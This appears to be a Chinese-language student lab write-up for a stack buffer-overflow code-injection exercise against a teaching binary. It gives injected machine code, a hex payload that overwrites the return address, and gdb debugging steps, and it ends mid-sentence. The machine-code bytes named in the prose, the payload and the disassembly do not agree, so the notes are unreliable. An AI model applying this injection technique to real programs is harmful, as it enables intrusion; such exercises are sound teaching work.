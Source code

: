 ```
0000000000000000 <.text>:
   0:	48 c7 c7 80 dc 61 55 	mov    $0x5561dc80,%rdi
   7:	c3                   	retq  
```
修改ctarget_l3.txt,将从($rsp)开始的8个字节设置为机器码48 c7 c7 e4 44 60 00 c3

```
35 39 62 39 39 37 66 61 48 c7 c7 78 dc 61 55 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 80 dc 61 55 00 00 00 00 fa 18 40 00 00 00 00 00 
```

同时将($rsp+0x28)开始的8个字节设置为($rsp)，这样就可以跳转到该地址执行代码

在getbuf中设置断点

```
break *0x4017b9
```
输入 

```
run -q < ctarget_l3-raw.txt 
```
```
(gdb) print /x $rsp
$1 = 0x5561dc78
```
输出

```
(gdb) x/48xb 0x5561dc78
```
在touch3()中设置断点

```
break *0x401916
```
在hexmatch中设置断点

```
break *0x4018cf
```
```
(gdb) print /x $rsi
$1 = 0x5561dc1b
```
```
(gdb) print /x $rdi
$1 = 0x5561dc78
```

```
(gdb) x/8xb 0x5561dc1b
0x5561dc1b:	0x35	0x39	0x62	0x39	0x39	0x37	0x66	0x61

```
希望%rsi所指向的地址开始的8个字符和希望%rdi所指向的地址开始的8个字符因此注入代码中的字符串应该为35 39 62 39 39 37 66 61 48
选择在0x5561dc80开始的8个字节保存 所以注入的机器代码应该是
